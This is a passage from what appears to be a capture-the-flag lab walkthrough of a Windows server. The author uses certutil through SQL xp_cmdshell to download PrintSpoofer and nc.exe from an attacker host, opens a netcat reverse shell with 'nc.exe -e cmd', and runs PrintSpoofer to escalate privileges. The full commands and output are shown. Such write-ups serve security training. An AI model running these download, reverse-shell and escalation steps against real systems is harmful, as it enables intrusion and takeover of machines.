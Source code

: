 We already have a webserver running on Kali, so use certutil here to pull the file across:

```text
PS C:\Windows\system32> certutil -urlcache -f http://10.8.165.116/PrintSpoofer32.exe c:\users\svc-kerb.dc01\PrintSpoofer.exe
```

## NetCat Reverse Shell

I couldn't get the exploit to run from within my Nishang reverse shell. So I decided to switch a netcat shell instead. Find one already available in Kali:

```text
┌──(root💀kali)-[~/thm/ustoun]
└─# locate nc.exe
/usr/share/windows-resources/binaries/nc.exe
```

Close my current Nishang shell, go back to SQL and upload nc.exe:

```text
SQL> xp_cmdshell certutil -urlcache -f http://10.8.165.116/nc.exe c:\users\svc-kerb.dc01\nc.exe
output
--------------------------------------------------------------------------------
****  Online  ****                                                                 
CertUtil: -URLCache command completed successfully.                                
NULL                                                                               
```

Start a netcat listener on Kali, then connect to it from the server:

```text
SQL> xp_cmdshell c:\users\svc-kerb.dc01\nc.exe -e cmd 10.8.165.116 443
```

Now switch to our netcat session to see we are connected:

```text
┌──(root💀kali)-[~/thm/ustoun]
└─# nc -nlvp 443
listening on [any] 443 ...
connect to [10.8.165.116] from (UNKNOWN) [10.10.79.18] 50134
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>
```

Now change directory and execute the exploit:

```text
C:\Windows\system32>cd ..\..\users\svc-kerb.dc01
c:\users\svc-kerb.dc01>printspoofer.exe -i -c powershell
printspoofer.exe -i -c powershell
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Windows\system32>
```
